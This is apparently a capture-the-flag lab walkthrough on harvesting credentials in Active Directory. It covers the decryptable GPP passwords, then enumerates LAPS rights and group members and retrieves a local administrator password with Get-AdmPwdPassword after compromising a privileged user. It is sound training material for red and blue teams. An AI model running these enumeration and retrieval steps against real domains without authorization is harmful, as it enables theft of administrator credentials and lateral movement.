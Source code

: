 # Credentials Harvesting: Local Administrator Password Solution (LAPS)

This task explains how to enumerate and obtain a local administrator password in an Active Directory environment when LAPS is configured and enabled.

---

## Group Policy Preferences (GPP)

Windows includes a built-in Administrator account, but managing its password across many computers is challenging. Microsoft introduced Group Policy Preferences (GPP) to help automate this process.

GPP allows administrators to create domain policies with embedded credentials. When deployed, GPP creates XML files in the SYSVOL folder, which is accessible to all authenticated domain users. Originally, these XML files stored passwords encrypted with AES-256. However, Microsoft accidentally published the private key, making it possible for attackers to decrypt these passwords. Tools like `Get-GPPPassword` can extract these credentials.

---

## Local Administrator Password Solution (LAPS)

To address GPP's security issues, Microsoft introduced LAPS in 2015. LAPS securely manages local administrator passwords by storing them in Active Directory attributes:

- `ms-mcs-AdmPwd`: Stores the clear-text local admin password.
- `ms-mcs-AdmPwdExpirationTime`: Stores the password expiration time.

LAPS uses `admpwd.dll` to change and update these attributes.

---

## Enumerating LAPS

To check if LAPS is installed on a target machine, look for the `admpwd.dll` file:

```shell
dir "C:\Program Files\LAPS\CSE"
```

Sample output:

```
 Directory of C:\Program Files\LAPS\CSE

05/05/2021  07:04 AM           184,232 AdmPwd.dll
```

---

### Listing LAPS PowerShell Cmdlets

Use PowerShell to list available LAPS cmdlets:

```powershell
Get-Command *AdmPwd*
```

Sample output:

```
Cmdlet          Find-AdmPwdExtendedRights
Cmdlet          Get-AdmPwdPassword
Cmdlet          Reset-AdmPwdPassword
Cmdlet          Set-AdmPwdAuditing
Cmdlet          Set-AdmPwdComputerSelfPermission
Cmdlet          Set-AdmPwdReadPasswordPermission
Cmdlet          Set-AdmPwdResetPasswordPermission
Cmdlet          Update-AdmPwdADSchema
```

---

### Finding OUs with LAPS Rights

Identify which AD Organizational Units (OUs) have "All extended rights" for LAPS using:

```powershell
Find-AdmPwdExtendedRights -Identity THMorg
```

Sample output:

```
ObjectDN                                      ExtendedRightHolders
OU=THMorg,DC=thm,DC=red                       {THM\THMGroupReader}
```

---

### Enumerating Group Members

Check group membership for LAPS rights:

```powershell
net groups "THMGroupReader"
```

Sample output:

```
Members
-------------------------------------------------------------------------------
bk-admin
```

Check user group memberships:

```powershell
net user test-admin
```

Sample output (excerpt):

```
Global Group memberships     *Domain Users         *Domain Admins
                             *THMGroupReader       *Enterprise Admins
```

---

## Retrieving the LAPS Password

After compromising or impersonating a user with the right permissions (e.g., `bk-admin`), retrieve the LAPS password:

```powershell
Get-AdmPwdPassword -ComputerName creds-harvestin
```

Sample output:

```
ComputerName         DistinguishedName                             Password           ExpirationTimestamp
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    FakePassword       2/11/2338 11:05:2...
```

---

> **Note:** In real-world environments, LAPS is typically enabled only on specific machines. Proper enumeration is required to identify target computers and users with the necessary permissions. Tools like LAPSToolkit (e.g., in `C:\Tool`) can assist with this process.
